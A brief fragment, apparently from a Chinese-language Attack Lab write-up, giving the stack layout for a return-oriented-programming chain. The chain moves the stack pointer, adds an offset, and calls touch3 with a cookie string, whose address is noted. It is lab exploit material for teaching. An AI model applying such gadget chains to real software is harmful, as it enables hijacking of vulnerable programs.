 栈帧自顶向下为：

```bash
movq %rsp,%rax
movq %rax,%rdi
popq %rax
0x48
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
lea(%rdi,%rsi,1),%rax
movq %rax, %rdi
touch3
35 39 62 39 39 37 66 61 00
0x0
```

> touch3的地址：`0x4018fa`

